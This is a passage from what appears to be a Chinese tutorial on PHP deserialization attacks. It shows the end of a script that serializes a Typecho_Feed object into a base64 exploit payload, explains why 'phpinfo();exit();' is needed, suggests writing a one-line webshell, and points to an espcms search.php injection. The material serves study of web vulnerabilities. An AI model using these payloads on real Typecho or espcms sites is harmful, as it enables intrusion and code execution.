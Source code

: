 ```
}

$payload = array('adapter'=>new Typecho_Feed());
echo base64_encode(serialize($payload));
?>

```

为什么这里payload `phpinfo();exit();`中有`exit()` ,因为程序开始使用了`ob_start()` 这个函数会把输出放进缓冲区，触发异常后`ob_end_clean()` 会清空缓冲区，导致没有回显。所以可以找到个函数来跳出或者执行后我们报错跳出又或者直接不要回显写入一句话。

![file](./img/1.9.12.png)


这类反序列化一般寻找起来还是很有难度的，个人感觉两头向中间来找方便一些，找到可以利用的入口，再到可以利用的函数，再从入口点想办法到利用点。


# 0x04 文末

反序列化的地方还可以搭配注入 比如espcms的search.php注入。